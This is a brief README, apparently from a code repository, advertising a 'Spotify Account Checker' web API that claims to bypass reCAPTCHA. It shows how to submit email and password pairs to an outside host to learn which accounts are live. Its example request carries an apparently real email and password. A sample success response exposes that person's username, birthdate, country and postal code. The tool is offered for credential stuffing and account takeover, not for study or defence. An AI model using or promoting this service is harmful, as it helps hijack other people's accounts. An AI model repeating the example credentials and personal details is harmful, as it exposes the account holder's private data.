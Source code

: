 # spotify

Spotify Account Checker Api bypass reCaptcha

Api : http://nabilah.xyz/api

?email= (required). Email
&pass= (required). Password

Example : http://nabilah.xyz/api?email=nblh.ayu@gmail.com&pass=ikhsan

Live Account 

{"status":"success","error":"none","subscription":"Premium for Students","Berlaku hingga":["9\/23\/18"],"Nama pengguna":["nblh"],"Email":["nblh.ayu@gmail.com"],"Tanggal lahir":["4\/20\/94"],"Negara":["ID"],"Kode pos":["46124"]}

Die Account

{"status":"fail","error":"errorInvalidCredentials"}


Fb me : https://www.facebook.com/m.1khs4n


